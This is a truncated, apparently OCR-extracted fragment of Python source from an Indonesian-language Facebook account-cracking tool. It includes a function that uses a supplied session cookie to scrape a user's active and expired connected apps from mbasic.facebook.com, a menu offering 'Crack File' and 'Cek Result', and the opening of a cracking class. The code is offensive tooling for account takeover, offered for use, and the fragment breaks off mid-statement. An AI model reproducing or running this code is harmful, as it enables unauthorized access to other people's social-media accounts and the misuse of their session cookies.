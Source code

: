 
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %sSorry there is no Active Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r 🎮  %sYour Active Application Details :'%(H))
        for i in range(len(game)):
            print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r %s[%s!%s] %sSorry no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r 🎮  %sYour Expired Application Details :'%(M))
        for i in range(len(game)):
            print(f"\r %s%s. %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print(f'\r')
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie\n'%(N,M,N))
#METODE LOGIN
### MENU UTAMA ###
def file():
            os.system("clear")
            logo()
            print('')
            print("\033[1;92m [01] Crack File ")
            print ("\033[1;92m [02] Cek Result")
            key = input("\n [+] Input : ")
            if key in [""]:
                print(" [!] please select correct option")
                exit()
            elif key in ["1", "01"]:
                __chigoue__().chi(id)
            elif key in ["2","02"]:
                result()

# MULAI CRACK
class __chigoue__:
    def __init__(self):
        self.id = []
    def chi(self, id):
        os.system("clear")
        logo()
        crot = input(f" {H}[{H}+{H}] Want to show related apps [{H}y{H}/{H}t{H}]: ")
        if crot in[""]:
            print(f" {N}[{M}×{N}] Don't be empty");__chigoue__().chi(id)
        elif crot in["Y","y"]:
            Apk.append("y")
        elif crot in["T","t"]:
            Apk.append("t")
        else:
            #jalan(f" {N}[{M}×{N}] Sorry, wrong username");self.tampilkan_apk()